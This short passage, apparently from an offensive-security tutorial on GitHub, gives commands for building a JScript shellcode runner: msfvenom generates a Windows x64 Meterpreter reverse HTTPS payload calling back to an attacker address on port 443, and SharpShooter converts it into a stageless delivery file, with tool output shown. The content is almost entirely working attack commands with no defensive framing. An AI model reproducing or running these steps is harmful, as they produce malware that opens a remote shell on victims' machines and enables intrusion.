**Translating raw shellcode to a JScript shellcode runner:**

First, we must create the raw shellcode:

```
~# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 -f raw -o /var/www/html/shell.txt
```
Then we use [SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) to convert our raw shellcode into a JScript shellcode runner:

```
~# python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test

[*] Written delivery payload to output/test.js
```
